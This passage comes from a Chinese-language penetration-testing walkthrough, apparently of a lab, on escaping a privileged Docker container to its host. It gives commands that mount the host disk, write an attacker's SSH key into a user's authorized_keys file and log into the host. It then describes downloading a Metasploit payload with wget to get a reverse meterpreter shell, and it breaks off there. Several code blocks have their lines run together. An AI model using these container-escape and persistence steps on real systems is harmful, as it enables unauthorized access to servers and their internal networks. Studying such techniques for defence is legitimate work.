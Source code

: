 > **在 docker 容器里挂载一个宿主的本地目录，这样某些容器里输出的文件，就可以在本地目录中打开访问了。**

然后，在攻击机本地生成 ssh 秘钥：

```
ssh-keygen -f hackchmod 600 hack    // 不要忘记对秘钥文件赋600权限，否则不能执行哦
```

即可在当前目录下生成一个秘钥文件

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxiaU4VfTX5qhJvf8crovJ0micakDT09VuPIxkRYWcT8DN6peicS5zicicXzA/640?wx_fmt=png)image-20200726214224394

接下来要做的就是将生成的秘钥写入到目标机中了。前面说了，将 sda1 挂载成功，我们就可以通过访问容器内部的 / hack 路径来达到访问整个宿主机的目的，比如我们访问`/hack/home`目录也就是访问宿主机的`/home`目录：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxNE2cPlQ1Vp4b8UmvrYwftGLsicyPgXCc9Ysbp0R0U3I7zP7ywhLDfiag/640?wx_fmt=png)image-20200726213611924

看见一个 Ubuntu 用户的主目录，进去看看，`ls -alh /hack/home/ubuntu`（查看包括隐藏的文件）：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibx3pxh4icXb3hFm2ibiao4sEFL1JKDNwLyHiaiamNAVWPvNeywTdiasgib6nGJA/640?wx_fmt=png)image-20200726213802663

我们看见了一个. ssh 目录，我们也就是要将 ssh 秘钥写入到. ssh 目录里面并将文件命名为 authorized_keys（目标机. ssh 目录权限必须为 700）。

依次执行如下命令写入秘钥：

```
cp -avx /hack/home/ubuntu/.ssh/id_rsa.pub /hack/home/ubuntu/.ssh/authorized_keys    # -avx是将权限也一起复制echo > /hack/home/ubuntu/.ssh/authorized_keys      # 清空authorized_keys文件echo '生成的.pub文件的内容' > /hack/home/ubuntu/.ssh/authorized_keys    # 将ssh秘钥写入authorized_keys文件
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxeBoBKZJAnBkLghnz6gRcwTXbNUib7ILqTe3Sz99icyJaagM7aYBdHUkw/640?wx_fmt=png)image-20200726214107822![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxSGGsiaePepYBrJZ8OibibiaB0dumBZvsKadPs9cxPLlVq6kJGaMEbtOuHA/640?wx_fmt=png)image-20200726214121843![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxUQ64JSUWicAFkggU4gaj517iaHyMTxyu2ibUUicVH5Xp4VYtVVxJdzDJRg/640?wx_fmt=png)image-20200726214344029

查看秘钥是否写入成功：

```
cat /hack/home/ubuntu/.ssh/authorized_keys
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxmI00b8hezwskyO1GyTLM1O4EkWDPGVPJufOTalZJcPacNIPxnSLn5Q/640?wx_fmt=png)image-20200726214429875

写入成功。

此时，攻击者就可以利用自己的私钥进行免密登陆目标宿主机了：

```
ssh -i hack ubuntu@192.168.0.105
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxyXR6lr8pdCSyqMtD2h0m6qbzuOgOowyYD1hl5Ng5W9HvUJ4ibRvA1YA/640?wx_fmt=png)image-20200726230954097

成功拿到目标机（docker 宿主机）Web 服务器的 shell。

查看一下网络配置：`ifconfig`

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxZl4SibApRCt9pbqzLz2hVRv0fVNguicm9osRknZiaP8koJlgTrVcU3Nwg/640?wx_fmt=png)image-20200726231138665

可知，目标 Web 服务器除了一个公网 IP（192.168.0.105）外，还有一个内网 IP（192.168.183.129）。然后我们在目标及上用 wget 下载我们之前生成的 msf 马，并执行，反弹一个 meterpreter 过来，
